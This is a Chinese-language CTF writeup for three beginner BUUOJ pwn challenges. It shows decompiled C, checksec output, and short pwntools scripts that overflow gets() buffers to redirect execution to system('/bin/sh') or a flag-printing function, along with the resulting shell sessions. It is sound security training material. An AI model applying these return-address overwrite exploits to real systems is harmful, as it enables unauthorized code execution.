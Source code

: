# PWN做题笔记

## 练习记录

### [PWN-test_your_nc](https://buuoj.cn/challenges#test_your_nc)

下载程序文件，使用 `file` 命令查看，发现这是个 Debian 64 位程序

使用 IDA 64 进行静态分析，找到主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  system("/bin/sh");
  return 0;
}
```

emmmmmmmm...

显然直接 `nc` 到服务器里即可获得 flag

```shell
┌──(hervey㉿Hervey)-[~]
└─$ nc node5.buuoj.cn 29833
ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
cat flag
flag{<flag here>}
```

### [PWN-rip](https://buuoj.cn/challenges#rip)

下载后获得文件 pwn1

先使用 `file` 命令查看文件类型，发现是一个 ELF 64 位程序

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ file pwn1
pwn1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=1c72ddcad651c7f35bb655e0ddda5ecbf8d31999, not stripped
```

接着使用 `checksec` 命令识别安全属性

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ checksec --file=pwn1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   64 Symbols        No    0               1               pwn1
```

可以发现无栈保护

使用 IDA 64 进行逆向

`main()` 函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

同时我们还能找到一个 `fun` 函数

```c
int fun()
{
  return system("/bin/sh");
}
```

所以我们的目标应该是利用 `gets()` 这个危险函数的缓冲区溢出漏洞，将 `s` 变量数据溢出到覆盖返回地址，实现跳转到执行 `system("/bin/sh")` 进而去获得 flag

使用 IDA 64 可以轻松地获取 `s` 的地址为 `[rbp-Fh]`

点击 `fun()` 在窗口左下角可以获得该函数位于 `0x401186`

![PWN-rip-1](./Notes-on-PWN/PWN-rip-1.png)

当然，也可以直接从汇编界面找到该函数的地址

![PWN-rip-2](./Notes-on-PWN/PWN-rip-2.png)

![PWN-rip-3](./Notes-on-PWN/PWN-rip-3.png)

由此我们可以写出脚本

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * 0xF + p64(0x401186)
p.sendline(payload)
p.interactive()
```

运行该脚本，进入容器终端

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to <IP Address> on port <Port>: Done
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
flag{<flag here>}
```

进而获得 flag

### [PWN-warmup_csaw_2016](https://buuoj.cn/challenges#warmup_csaw_2016)

下载后获得文件 warmup_csaw_2016

先使用 `file` 命令查看文件类型，发现是一个 ELF 64 位程序

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ file ./warmup_csaw_2016
./warmup_csaw_2016: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=7b7d75c51503566eb1203781298d9f0355a66bd3, stripped
```

接着使用 `checksec` 命令识别安全属性

```shell
┌──(hervey㉿ZHW)-[~/Downloads]
└─$ checksec --file=warmup_csaw_2016
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No Symbols        No    0               2               warmup_csaw_2016
```

可以发现无栈保护

使用 IDA 64 进行逆向

`main()` 函数

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```

发现有一个 `gets()` 函数，推测应该用栈溢出的方法解决此问题

接下来查看 `v5` 的位置，在 IDA 中双击进入

```asm
-0000000000000042 db ? ; undefined
-0000000000000041 db ? ; undefined
-0000000000000040 var_40 db 64 dup(?)
+0000000000000000  s db 8 dup(?)
+0000000000000008  r db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

可以知道离返回地址的距离为 `0x40 + 0x8`

同时我们还能找到一个 `sub_40060D` 函数

```c
int sub_40060D()
{
  return system("cat flag.txt");
}
```

这个函数的地址在 `0x40060D`

通过调用这个函数就可以获取 flag

由此我们可以写出脚本

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * (0x40 + 0x8) + p64(0x40060D)
p.sendline(payload)
p.interactive()
```

运行该脚本，获取 flag

```shell
┌──(hervey㉿ZHW)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to <IP Address> on port <Port>: Done
[*] Switching to interactive mode
-Warm Up-
WOW:0x40060d
>flag{<flag here>}
[*] Got EOF while reading in interactive
$
```

进而获得 flag
